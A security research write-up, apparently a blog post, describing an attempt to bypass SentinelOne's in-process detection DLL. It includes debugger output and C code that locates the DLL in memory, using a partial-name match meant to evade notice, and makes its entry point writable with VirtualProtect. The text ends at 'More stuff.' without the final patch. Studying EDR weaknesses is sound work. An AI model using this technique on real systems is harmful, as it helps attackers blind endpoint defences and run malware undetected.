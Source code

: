 ```yaml
---
layout: default
---
```

<br/>
# SentinelOne Agent Bypass
<hr/>

## What is this?
This is a write-up describing the discovery and exploitation of a vulnerability in Sentinel Agent ("S1"), the in-process monitoring component of the SentinelOne platform.

<br/>
<hr/>

## SentinelOne
SentinelOne is a cybersecurity platform known for its robust Endpoint Detection and Response (EDR) capabilities. It utilizes AI and machine learning to deliver real-time threat detection, automated response, and full visibility into endpoint activities.

SentinelOne is widely adopted across various industries due to its effectiveness in handling sophisticated attacks, ease of deployment, and comprehensive threat intelligence capabilities. Its ability to autonomously detect and respond to threats without manual intervention sets it apart as a leader in the EDR space.

*(ChatGPT)*

<br/>
<hr/>

## The Vulnerability
Successful exploitation of the vulnerability blinds the in-process detection, meaning you can run even the most toxic shellcode (e.g., meterpreter) without it getting detected. You can also remotely blind processes and inject into them, also without detection.

<br/>
<hr/>

## In-Process Detection
When the system boots, S1's kernel driver (`SentinelMonitor.sys`) is loaded. This driver calls the `PsSetCreateProcessNotifyRoutine()` Windows API to tell Windows that it wants to be notified every time a new process is created.

Now, whenever a new process is created, the driver is notified, and it has the opportunity to perform some tasks as part of the process creation. One of these tasks is injecting a DLL into the newly created process. This DLL is named `InProcessClient64.dll` on x64 systems and its purpose is to monitor the process for threats. It performs numerous timer- or event-driven tasks such as scanning memory for threats and watching for suspicious memory operations and network connections.

If we use WinDbg to debug notepad.exe, we can see this DLL loaded alongside all the other modules in the process:
```
0:000> lm
start             end                 module name
00007ff6`2e580000 00007ff6`2e5da000   notepad    (deferred)             
00007ffd`f8c10000 00007ffd`f8ea2000   COMCTL32   (deferred)             
00007ffe`14a80000 00007ffe`14e96000   InProcessClient64   (deferred)
00007ffe`151e0000 00007ffe`15208000   bcrypt     (deferred)             
00007ffe`15380000 00007ffe`15491000   ucrtbase   (deferred)             
00007ffe`154a0000 00007ffe`1585a000   KERNELBASE   (deferred)             
...snip...
```

We can get some information about the DLL:
```
0:000> lmDvm InProcessClient64
start             end                 module name
00007ffe`14a80000 00007ffe`14e96000   InProcessClient64   (deferred)             
    Image path: C:\Program Files\SentinelOne\Sentinel Agent 24.1.4.257\InProcessClient64.dll
    Image name: InProcessClient64.dll
    Timestamp:        Thu Sep 26 15:37:12 2024 (66F5B7E8)
    CheckSum:         0040B65F
    ImageSize:        00416000
    File version:     24.1.4.257
    Product version:  24.1.4.257
    File type:        2.0 Dll
    Information from resource tables:
        CompanyName:      SentinelOne, Inc.
        ProductName:      Sentinel Agent
        InternalName:     WinHostDll
        OriginalFilename: WinHostDll.dll
        ProductVersion:   24.1.4.257
        FileVersion:      24.1.4.257
        FileDescription:  WinAgentHostDll
        LegalCopyright:   SentinelOne, Inc.
```

<br/>
<hr/>

## InProcessClient64.dll?
I don't really know. A lot. Fortunately, developing this exploit did not require a deep understanding of how the DLL works or how it fits into the complex S1 platform, just that certain functions in the DLL are called at certain times. This was enough to give me an idea on how to approach exploiting it.

<br/>
<hr/>

## Approach
The idea was that if I could write to the DLL's memory, maybe I could influence its behavior (i.e. disable it).

To be able to write to memory, the first task was to locate the base address of `InProcessClient64.dll`. Due to ASLR, this address will be different on every system, and after every reboot. I created a C++ console app in Visual Studio whose sole purpose (for now) was to attack the `InProcessClient64.dll` that gets injected into it when the process is created.

Using a combination of Windows APIs including `OpenProcess()`, `EnumProcessModules()`, `GetModuleInformation()`, and `GetModuleFileNameExA()`, it is possible to loop through the loaded modules in your process to look for one in particular.

Here is the code that loops through the loaded modules and looks for the one we're interested in. Note that I am not using the DLL's full name, which is probably not necessary, but is less likely to be seen as malicious if S1 happens to be watching for something like this.

```c
    HMODULE hModules[1024];
    DWORD cbNeeded = 0;
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, GetCurrentProcessId());

    if (EnumProcessModules(hProcess, hModules, sizeof(hModules), &cbNeeded))
    {
        for (DWORD i = 0; i < (cbNeeded / sizeof(HMODULE)); ++i)
        {
            MODULEINFO modInfo = { 0 };
            if (GetModuleInformation(hProcess, hModules[i], &modInfo, sizeof(MODULEINFO)))
            {
                CHAR modName[MAX_PATH] = { 0 };
                if (GetModuleFileNameExA(hProcess, hModules[i], modName, sizeof(modName) / sizeof(CHAR)))
                {
                    if (std::string(modName).find("cessClient6") != std::string::npos)
                    {
                        // we have found the InProcessClient64.dll module, so now we can grab its base address

                        QWORD base = (QWORD)modInfo.lpBaseOfDll;
                    }
                }
            }
        }
    }
```

Now that I had the base address of the DLL, I could try actually writing to its memory. But where? As the write target, I chose `DllMain()`, the default entrypoint for DLLs. To find the location of this function, I used IDA Pro, which showed its offset as `0x32b0`, which means its virtual address is `0x32b0` plus the base address I just obtained. (For some reason IDA Pro is calling this function `DllEntryPoint()`. I don't know what that's about.)

![DllMain](/images/dllmain.png)

But first things first - before I could write memory, I needed to set the memory protection of this address to actually allow writing, since this region is marked as `PAGE_EXECUTE_READ` as can be seen in WinDbg:

![VirtualProtect](/images/vprotect2.png)

To modify memory protection, I used the `VirtualProtect()` Windows API. This function accepts the address whose protection you want to change, how many bytes, the new protection constant, and a place to store the old protection constant which is useful if you want to set it back to its original value when you're done, which I did.

So I modified the PoC to include the following code:

```c
    QWORD base = (QWORD)modInfo.lpBaseOfDll;  // base address of InProcessClient64.dll
    QWORD entrypoint = base + 0x32b0;         // virtual address of the entrypoint (base plus offset)
    DWORD oldProtect = 0;                     // stack variable to receive the previous protection

    printf("Write target: 0x%llx\n", (QWORD)entrypoint);

    if (VirtualProtect((LPVOID)entrypoint, 1, PAGE_READWRITE, &oldProtect))
    {
        printf("Success!\n");
        VirtualProtect((LPVOID)entrypoint, 1, oldProtect, &oldProtect);
    }
```

When I ran the updated PoC in WinDbg, I was able to verify that the protection for the target address had been changed to `PAGE_READWRITE`:

![VirtualProtect](/images/vprotect.png)

With the protection changed, I should now be able to write artbirary values to the address of the entrypoint. When I did this originally, I fully expected S1 to intervene and kill my process. I don't have a guess as to why S1 allows you to do this.

<br/>
<hr/>

## So what now?
More stuff.

